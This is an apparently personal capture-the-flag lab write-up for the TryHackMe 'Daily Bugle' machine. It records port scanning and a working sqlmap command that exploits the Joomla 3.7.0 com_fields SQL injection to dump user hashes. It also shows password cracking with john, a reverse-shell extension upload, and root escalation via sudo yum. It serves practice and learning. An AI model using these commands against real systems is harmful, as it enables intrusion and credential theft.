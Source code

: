 # Scan
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 17:35 EDT
Nmap scan report for 10.10.50.18
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.60 seconds

* see spiderman robbed bank

# foothold
* find way in 
see joomla endpoints
can access /administrator
Google how to find version and see at http://10.10.50.18//administrator/manifests/files/joomla.xml
	gives manifest file saying that version is 3.7.0
searchsploit
'''pat@kali:~/Desktop/Cert_Prep/thm/dailybugle$ searchsploit joomla | grep 3.7.0'''
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                                              | exploits/php/webapps/42033.txt

* exploit for hash 

Not sure why nmap scan doesn't say that it's vulnerable?
'''
pat@kali:~/Desktop/Cert_Prep/thm/dailybugle$ /usr/bin/nmap --script http-vuln-cve2017-8917.nse --script-args=http-vuln-cve2017-8917.uri=joomla/ -p 80 10.10.50.18
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 18:18 EDT
Nmap scan report for 10.10.50.18
Host is up (0.11s latency).

PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
'''


Run second command in that script and get:
If difficulties persist, please contact the System Administrator of this site and report the error below.

    500 Duplicate entry <> for key 'group_key' 


Doesn't seem to be useful. Rerun the sqlmap command but instead of --dbs use --dump-all to get tables
Joomblah would be an alternative also. I'm just dumb and it didn't work at first. 
Holy fuck the sqlmap dump all is crazy. Go back to manual to only enumerate what I want. 
'''
pat@kali:~/Desktop/Cert_Prep/thm/dailybugle$ sqlmap -u "http://10.10.50.18/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
'''
Yes to user common columns. Get output. 

* Crack johns password
'''
pat@kali:~/Desktop/Cert_Prep/thm/dailybugle$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
Using default input encoding: UTF-8                                                                                                                                                                              
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])                                                                                                                                                              
Cost 1 (iteration count) is 1024 for all loaded hashes                                                                                                                                                           
Will run 4 OpenMP threads                                                                                                                                                                                        
Press 'q' or Ctrl-C to abort, almost any other key for status                                                                                                                                                    
0g 0:00:02:40 0.22% (ETA: 00:36:10) 0g/s 243.3p/s 243.3c/s 243.3C/s solomio..sanne                                                                                                                               
<>     (jonah)                                                                                                                                                                                         
1g 0:00:03:11 DONE (2020-05-07 04:53) 0.005210g/s 244.0p/s 244.0c/s 244.0C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed
'''

* use pw for access
access admin page

* exploit admin page
tried to upload a shell to media, didn't work
uploaded extension with reverse shell from this template: https://docs.joomla.org/J3.x:Developing_an_MVC_Component/Developing_a_Basic_Component#helloworld.xml
went to components and clicked on it and got callback
get user shell

# Escalate
* get user flag
can't ssh as jjameson
can't read his flag
can't su to jjameson
copy over and run linpeas, save output to txt file and download 
see jjameson can run yum
look at gtfobins for yum, make shell script and follow steps
nevermind, it says that jjameson can run yum. Use that later. 
Back to shell or linpeas, see in config file, there's public $password = <>;
  use that to try su to jjameson
read flag
* get root flag
Back to yum stuff
run commands from gtfobins
get root


